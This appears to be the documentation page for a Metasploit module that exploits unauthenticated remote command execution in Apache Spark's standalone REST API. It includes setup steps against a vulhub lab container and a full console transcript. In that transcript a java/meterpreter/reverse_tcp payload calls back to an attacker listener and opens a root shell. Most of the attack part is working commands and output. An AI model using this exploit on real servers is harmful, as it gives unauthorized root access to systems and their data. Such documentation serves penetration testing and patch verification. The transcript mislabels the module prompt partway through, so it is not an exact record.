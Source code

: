 ## Description

This module exploits an unauthenticated command execution vulnerability in Apache Spark with standalone cluster mode through REST API.
It uses the function CreateSubmissionRequest to submit a malious java class and trigger it.

## Verification Steps

https://github.com/vulhub/vulhub/tree/master/spark/unacc 

`docker-compose up -d`

## Verification Steps

1. get session on target
2. `use exploit/linux/http/spark_unauth_rce`
3. `set payload <payload>`
4. `set rhosts <rhosts>`
5. `set rport <rport>`
6. `set srvhost <srvhost>`
7. `set srvport <srvport>`
8. `set lport <lport>`
9. `set lhost <lhost>`
10. `exploit`

## Scenarios

### Spark 2.3.1

```
msf5 > use exploit/linux/http/spark_unauth_rce
msf5 exploit(linux/http/spark_unauth_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/spark_unauth_rce) > set rport 6066
rport => 6066
msf5 exploit(linux/http/spark_unauth_rce) > set srvhost 10.139.14.167
srvhost => 10.139.14.167
msf5 exploit(linux/http/spark_unauth_rce) > set srvport 9999
srvport => 9999
msf5 exploit(linux/http/spark_unauth_rce) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(linux/http/spark_unauth_rce) > set lhost 10.139.14.167
lhost => 10.139.14.167
msf5 exploit(linux/http/spark_unauth_rce) > set lport 5555
lport => 5555
msf5 exploit(linux/http/spark_unauth_rce) > exploit
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.139.14.167:5555
msf5 exploit(linux/http/spark_unauth_rce) > [*] Starting up our web service ...
[*] Using URL: http://10.139.14.167:9999/feTYHNiHufrGI
[*] 127.0.0.1:6066 - Sending the payload to the server...
[*] Sending stage (53867 bytes) to 10.139.14.167
[*] Meterpreter session 2 opened (10.139.14.167:5555 -> 10.139.14.167:56021) at 2018-11-12 16:59:33 +0800
msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions

Active sessions
===============

  Id  Name  Type                    Information          Connection
  --  ----  ----                    -----------          ----------
  2         meterpreter java/linux  root @ 96b2135aee9c  10.139.14.167:5555 -> 10.139.14.167:56021 (127.0.0.1)

msf5 exploit(linux/http/apache_couchdb_cmd_exec) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
meterpreter >
```
